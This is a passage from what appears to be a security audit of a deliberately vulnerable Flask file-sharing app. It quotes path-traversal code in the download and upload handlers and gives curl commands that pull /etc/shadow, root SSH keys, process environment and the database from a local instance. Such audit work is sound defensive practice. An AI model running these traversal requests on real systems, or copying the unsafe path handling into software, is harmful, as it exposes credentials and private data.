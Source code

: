 #### Location Details:
- **Function:** `download_file()`
- **Line Number:** 134
- **Vulnerable Code:**
```python
@app.route('/api/download/<path:filename>', methods=['GET'])
def download_file(filename):
    file_path = os.path.join(UPLOAD_FOLDER, filename)  # Direct concatenation
    if not os.path.exists(file_path):  # Only checks existence
        return jsonify({'error': 'File not found'}), 404
    return send_file(file_path, as_attachment=True)  # Serves any file
```

#### Attack Vectors:
1. **System File Extraction:**
   ```bash
   curl http://localhost:5003/api/download/../../../../etc/passwd
   curl http://localhost:5003/api/download/../../../../etc/shadow
   curl http://localhost:5003/api/download/../../../../root/.ssh/id_rsa
   ```

2. **Application Source Code Theft:**
   ```bash
   curl http://localhost:5003/api/download/../vulnerable_path_traversal.py
   curl http://localhost:5003/api/download/../../../../proc/self/environ
   ```

3. **Database Extraction:**
   ```bash
   curl http://localhost:5003/api/download/../documents.db
   ```

#### Impact:
- **Complete file system access** - Read any file accessible to application
- **Credential theft** - SSH keys, passwords, API tokens
- **Source code disclosure** - Reveals additional vulnerabilities
- **Database compromise** - Full data breach

---

### 2. Path Traversal - File Upload

**Vulnerability Type:** Path Traversal Write  
**Severity:** **CRITICAL**  
**CVSS 3.1 Score:** 9.1 (Critical)  

#### Location Details:
- **Function:** `upload_file()`
- **Line Numbers:** 83, 96
- **Vulnerable Code:**
```python
folder = request.form.get('folder', '')  # User input
if folder:
    upload_path = os.path.join(UPLOAD_FOLDER, folder)  # LINE 83
    
filename = f"{timestamp}_{file.filename}"
file_path = os.path.join(upload_path, filename)  # LINE 96
file.save(file_path)
```
